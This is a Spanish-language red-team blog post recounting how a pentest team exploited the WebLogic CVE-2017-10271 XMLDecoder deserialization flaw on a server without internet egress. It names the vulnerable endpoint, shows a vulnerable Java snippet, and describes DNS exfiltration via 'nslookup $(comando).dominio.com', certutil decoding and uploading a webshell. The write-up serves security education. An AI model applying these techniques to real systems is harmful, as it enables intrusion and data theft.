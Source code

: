 ```yaml
---
title: "Explotacion de CVE-2017-10271 en entornos bastionados"
header:
  teaser: "https://farm5.staticflickr.com/4076/4940499208_b79b77fb0a_z.jpg"
categories: 
  - ES
tags:
  - ES
  - Red Team
  - Java
  - Object Injection
  - RCE
  - Deserialize
author: Alejandro Pinna
gallery:
        - url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          alt: "Peticion Lineas"
          title: "Contador de caracteres por DNS"
          url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          alt: "Respuesta Lineas"
          title: "Respuesta al XML que exfiltra dicha información"


gallery2:
          url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          alt: "Peticion para exfiltrar datos"
          title: "Contador de caracteres por DNS"
          url: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          image_path: /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png
          alt: "Respuesta exfiltracion de datos"
          title: "Respuesta al XML que exfiltra dicha información"

---
```



Durante uno de los test de intrusión llevados a cabo por el equipo de Red Team, en el cual se trataba de lograr acceso a la red de una organización,
haciendo uso de alguna vulnerabilididad en el perimetro, y sin ningún tipo de conocimiento previo de la misma, se tuvo que
explotar la hasta ahora poco conocidad vulnerabilidad CVE-2017-10271 en Weblogic.

## La vulnerabilidad

La vulnerabilidad se encuentra en la ruta /wls-wsat/CoordinatorPortType y se produce debido a que la clase *WorkContextXmlInputAdapter.class* utiliza
el XML que le introducimos sin ningún tipo de comprobación previa, pasandoselo a la funcion *readObject*, la cual al deserializar dicho xml provoca la
ejecución remota de código.

A continuación podremos observar un código que posee la misma vulnerabilidad que weblogic, aunque es mucho mas sencillo de comprender en el siguiente
escenario.

```java
    public static void main(String[] args) {
        java.io.File file = new java.io.File ( "C:\\Users\\Administrador\\Desktop\\poc.txt" );
        java.beans.XMLDecoder xd = null ;
        try {
            xd = new java.beans.XMLDecoder ( new BufferedInputStream ( new FileInputStream (file)));
        } catch (FileNotFoundException e) {
            e.printStackTrace ();
        }
        Object s2 = xd.readObject ();
        xd.close ();
}
```

Como podemos observar, el fichero contendrá código xml el cual será parseado por java.beans.XMLDecoder y nos devolverá un objeto, que sera
deserializado por la función java.beans.XMLDecoder.readObject, y que producirá la ejecución remota de código.

En el caso de Weblogic la vulnerabilidad es muy similar.

Para comprobar si un Weblogic es efectivamente vulnerable, hemos de buscar excepciones no controladas de Java al enviarlo XMLs con java embebido mediante una petición POST a la ruta **/wls-wsat/CoordinatorPortType** como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/respuesta-sistemas-vulnerables.png)

En este blog no tenemos como objetivo cubrir los detalles sobre la vulnerabilidad dado que estos han sido cubiertos en muchos otros articulos
publicados hasta el momento, sino que pretendemos mostrar como esta vulnerabilidad podría ser explotada incluso en entornos restringidos los cuales no
poseen salida a internet, y al tratarse de una ejecución de código en la cual no es observable la salida de lo ejecutado, otros métodos han tenido que
ser desarrollados.

A continuación dejamos un articulo de referencia, donde se explican este tipo de vulnerabilidades en profundidad. 

<http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html>


## Explotación

Para llevar a cabo la explotación, el primer paso fue comprobar si los sistemas que el equipo había identificado eran efectivamente vulnerables, para
lo cual se realizó un script, que envia un XML usando java, y que posteriormente comprueba si la respuesta de la aplicación web mostraba que
efectivamente era vulnerable, o si por el contrario las aplicaciones estaban parcheadas.

Tras algunos intentos el equipo detecto un weblogic vulnerable, por lo que se procedió a explotar la vulnerabilidad.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

En un primer intento, el equipo comprobó si la máquina tenía salida a internet, aunque se detecto que no.

Tras esto, se detecto que la máquina no tenía binarios como sleep, por lo que realizar una inyeccion de comandos basada en tiempos quedaba
completamente descartado, por lo que se buscaron otros metodos para realizar esta explotación.

Trás numerosas pruebas se detectó que la máquina tenía configurado un DNS interno, el cual al recibir peticiones hacia dominios de burpcollaborator
realizaba dichas peticiones, lo cual permitiría exfiltrar cierta información usando los subdominios para incrustar en ellos la información que ibamos
exfiltrando de la máquina.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

A partir de este punto se comenzó a desarrollar un xml que permitiera exfiltrar la salida de los comandos ejecutados por DNS, lo cual en otros
entornos es mucho más simple, usando la técnica **nslookup $(comando).dominio.com**, pero en este caso, tras ciertas pruebas se comprobó que dichos
comandos no funcionarían, dado que el weblogic corría sobre un servidor windows, por lo tanto este metodo fue implementado en java, usando un metodo
para ejecutar comandos, leer cada linea, y posteriormente usar dichas lineas como variables, enviandolos como subdominios en las peticiones DNS.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }} /assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png)


Como se puede observar la explotación constaba, no solo de exfiltrar los comandos por DNS, sino que fue necesario desarrollar un metodo para contar el
número de caracteres que devolvía cada comando, dado que no se pueden incluir más de 64 caracteres en un subdominio, por lo que con esta petición se
contaban los caracteres de cada linea sobre los comandos ejecutados.
Posteriormente se realizaba la exfiltración de los caracteres en si, haciendo uso de las funciones java.lang.String.replace y java.lang.String.substr 
para reemplazar caracteres especiales, y exfiltrar tan solo el número de caracteres permitidos, como se muestra a continuación.

![Respuesta devuelta por sistemas vulnerables]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/certutil.png)

Este proceso permitió ir conociendo la estructura de ficheros del servidor, el usuario que ejecutaba la aplicación, comprobar los privilegios con los
que se contaban, etc.

Poco a poco se fue desarrollando un automatismo que permitía recibir las respuestas en un servidor dns escrito en python, el cual tenía un
comportamiento cercano a una shell inversa, como se muestra a continuación.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

Utilizando estos automatismos el equipo fue capaz de encontrar un directorio escribible en el cual se podían subir ficheros para ser posteriormente
ejecutados por la aplicación web (webshell).

En este punto el equipo tuvo que desarrollar un metodo para subir una webshell sin poder utilizar caracteres como 
` > | `

Trás investigar durante un tiempo aplicaciones instaladas en un Windows Server por defecto que permitieran encodear y decodear base64 
mediante un solo comando se utilizó la utilidad **certutil**, la cual permite decodear el contenido de un fichero, y volcarlo en un nuevo fichero.

![checkeo de la vulnerabilidad]({{ site.url }}{{ site.baseurl }}/assets/images/2018-01-30-weblogic-cve-2017-10271/check.png)

Usando este metodo se consiguió obtener una webshell en dicho servidor, y por tanto un vector de acceso limpio en la organización.




